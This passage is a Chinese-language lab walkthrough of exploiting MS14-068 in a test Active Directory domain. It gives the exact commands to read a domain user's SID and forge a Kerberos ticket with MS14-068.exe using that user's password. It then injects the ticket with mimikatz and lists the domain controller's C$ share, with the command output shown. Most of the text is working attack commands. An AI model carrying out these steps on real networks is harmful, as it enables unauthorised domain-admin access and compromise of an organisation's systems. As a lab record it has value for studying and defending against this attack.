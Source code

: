 ```cmd
C:\Users\user01\Desktop>dir \\WIN-P4HEF96LMH2\c$
系统检测到危害安全的尝试。请确认您能与对您进行身份验证的服务器联系。
```

多次尝试失败，应该是域控的原因。

**转而使用 win2008 验证。**

域： sec1.com

域控制器： win2008    10.1.1.10     WIN-U5C3M6OA9KF

域用户： win7    10.1.1.28 user01/123.com

域控没安装对应补丁

![image-20210225122748685](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210225122748685.png)

得到sid

```cmd
C:\Users\user01.SEC1>whoami /user

用户信息
----------------

用户名      SID
=========== =============================================
sec1\user01 S-1-5-21-601821460-1582217486-3021982610-1112
```

生成票据

```cmd
MS14-068.exe -u user01@sec1.com -s  S-1-5-21-601821460-1582217486-3021982610-1112 -d 10.1.1.10 -p 123.com
```

```cmd
mimikatz # kerberos::purge          //清空当前凭证
mimikatz # kerberos::list           //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件    //将上一步生成的票据注入到内存中
```

成功：

```cmd
C:\Users\user01.SEC1\Desktop>dir \\WIN-U5C3M6OA9KF\C$
 驱动器 \\WIN-U5C3M6OA9KF\C$ 中的卷没有标签。
 卷的序列号是 DE18-05C2

 \\WIN-U5C3M6OA9KF\C$ 的目录

2020/12/17  16:47    <DIR>          inetpub
2009/07/14  11:20    <DIR>          PerfLogs
2021/02/25  12:06    <DIR>          Program Files
2021/02/25  12:06    <DIR>          Program Files (x86)
2020/06/19  17:05    <DIR>          Users
2021/02/25  12:11    <DIR>          Windows
               0 个文件              0 字节
               6 个目录  9,393,082,368 可用字节
```

